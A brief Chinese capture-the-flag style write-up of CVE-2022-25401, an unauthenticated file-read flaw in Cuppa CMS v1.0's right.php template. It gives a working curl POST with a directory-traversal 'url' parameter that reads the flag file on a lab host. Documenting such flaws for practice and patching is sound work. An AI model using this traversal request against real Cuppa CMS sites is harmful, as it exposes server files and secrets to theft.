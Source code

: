 ## 1. 漏洞介绍
Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php文件存在任意文件读取漏洞
## 2. 漏洞复现
漏洞测试POC：
[Non-authenticated Local File Inclusion vulnerability in CuppaCMS templates · Issue #18 · CuppaCMS/CuppaCMS · GitHub](https://github.com/CuppaCMS/CuppaCMS/issues/18)
获取 flag【[Linux必备下载命令之curl详解 - 知乎](https://zhuanlan.zhihu.com/p/336488696)】
```bash
 curl -X POST "http://eci-2ze6te21tps04ud8cibe.cloudeci1.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

![CVE-2022-25401 - Picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25401%20-%20Picture-1.jpg)

![CVE-2022-25401 - Picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25401%20-%20Picture-2.jpg)

